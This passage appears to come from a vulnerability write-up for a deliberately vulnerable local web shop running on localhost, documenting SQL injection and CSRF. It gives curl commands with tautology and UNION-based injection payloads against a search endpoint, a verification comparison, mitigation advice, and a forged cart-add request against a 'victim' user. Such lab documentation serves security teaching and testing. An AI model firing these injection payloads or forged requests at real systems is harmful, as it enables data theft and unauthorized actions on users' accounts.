 #### Alternative payload:
```bash
curl "http://localhost:9000/search?q='%20OR%201=1%20--"
```

#### Union-based injection (simulated):
```bash
curl "http://localhost:9000/search?q=laptop'%20UNION%20SELECT%20*%20FROM%20users--"
```

### Verification
Compare the results:

**Normal search** (returns 1 product):
```bash
curl "http://localhost:9000/search?q=laptop"
```

**Injection** (returns all 4 products):
```bash
curl "http://localhost:9000/search?q=laptop'%20OR%20'1'='1"
```

### Mitigation
- Use parameterized queries/prepared statements
- Implement input validation and sanitization
- Apply principle of least privilege to database accounts
- Use ORM frameworks properly

---

## Vulnerability 3: CSRF (Cross-Site Request Forgery)

### Endpoint
`POST /cart/add?user=<user>&product=<id>`

### Description
The application allows state-changing operations without any CSRF token validation. Attackers can forge requests to add items to any user's cart.

### Impact
- Unauthorized actions on behalf of users
- Shopping cart manipulation
- Unwanted purchases
- Account manipulation

### Exploitation

#### Add item to victim's cart:
```bash
curl -X POST "http://localhost:9000/cart/add?user=victim&product=1"
```
